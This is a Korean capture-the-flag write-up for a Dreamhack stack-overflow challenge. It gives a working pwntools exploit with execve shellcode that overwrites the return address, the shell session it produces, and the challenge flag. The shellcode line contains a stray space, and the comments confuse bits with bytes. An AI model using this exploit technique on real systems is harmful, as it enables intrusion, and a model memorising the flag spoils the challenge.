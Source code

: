 ## 문제에서 주어진 환경
Ubuntu 16.04
Arch: i386-32-little RELRO: No RELRO
Stack: No canary found NX: NX disabled
PIE: No PIE (0x8048000) RWX: Has RWX segments

-> 32비트 환경이므로 4바이트 단위로 데이터를 처리한다
-> canary가 없으므로 BOF 공격에 용이하다

## 주어진 코드 분석

```
int main(int argc, char *argv[]) {
    char buf[0x80]; // 128 비트

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf); // 141 비트, 13 비트가 남는다.

    return 0; 
}
```

주어진 코드에서 buf는 128바이트로 선언되었지만, scanf를 통해 141 바이트를 불러온다.
여기서 BOF의 가능성을 볼 수 있다.

공격을 하기 위해서는 buf의 시작주소를 알아야 한다.

## ghidra를 통해 프로그램을 분석해보자

<img width="452" alt="image" src="https://github.com/ffvv0123/kuaility-2023-01/assets/63843822/c5ef3fed-6705-48ce-8e2f-eda468313cda">
```
080485f2 83 c4 08 ADD ESP,0x8
080485f5 8d 45 80 LEA EAX=>local_84,[EBP + -0x80]
```
위 부분에서 scanf 함수를 통해 ebp + -0x80부터 입력된 값이 저장됨을 알 수 있다.

32비트 환경에서 시스템 스택의 구조는 다음과 같다.
- BUF - CANARY - SFP - RET

여기에서 CANARY는 존재하지 않으므로, 128바이트 BUF + 4바이트 SFP + RET로 이루어짐을 알 수 있다.
-> shell code가 포함된 132바이트 문자열 + 버퍼의 시작주소를 입력한다면 시스템 권한을 취득할 수 있다.

## 파이썬을 통한 시스템 권한 취득
```
from pwn import *

p = remote("host3.dreamhack.games", 10666)

p.recvuntil(b"buf = (") 
buf = int(p.recv(10), 16) 
p.recvuntil(b"\n")

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\ x08\x40\x40\x40\xcd\x80"
payload += b"\x80" * 106
payload += p32(buf)

p.sendline(payload) 
p.interactive()
```
사이트에서 접속정보에 있는 host이름과 포트번호를 remote()를 통해 불러온다.

recvuntil(), recv()는 데이터를 받아오는 함수이다. 
recvuntil(b”string”)은 현재 포인터에서 문자열까지 받아온다. 
recv(int)는 int만큼 데이터를 받아온다.

위에서 분석한 코드를 보면 s_buf_=_(%p) 형식으로 되어있다.
이는 문자열 “buf = (%p)”로 되어 있다는 것으로, 우리에게 필요한 부분만 가져오기 위해 주소 앞까 지 먼저 처리한다.

그러고 난 뒤 0xMMMMMMMM형태의 수(10자리)를 16진수 형태로 받아서 정수로 저장한다.
남아있는 문자열의 끝은 \n이기 떄문에 \n까지 데이터를 받아오는 식으로 나머지를 정리한다.
RET 데이터에 BUF의 주소를 넣고, 앞에 132 바이트를 셸코드와 나머지로 만든다면 원하는 권한을 얻을 수 있다.

payload = [shell code] + [임의의 데이터 -> 132바이트] + [buf의 주소]가 되고, 이는 c코드에서 입력하는 buf이다.

shell code는 구글링을 통해 기본적인 26바이트 코드로 가져왔다.
나머지 106바이트를 아무 수로 만들고 마지막에 buf의 주소를 연결한다.
32비트 환경에서는 4바이트 단위로 쪼개기 때문에 p32()함수를 사용해 주소를 나눈다.

이렇게 만들어진 payload를 입력하고 상호작용을 하면 다음과 같은 결과를 얻는다.
```
[+] Opening connection to host3.dreamhack.games on port 10666: Done
[*] Switching to interactive mode
$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
[*] Got EOF while reading in interactive
```



정답은 DH{465dd453b2a25a26a847a93d3695676d} 이다.
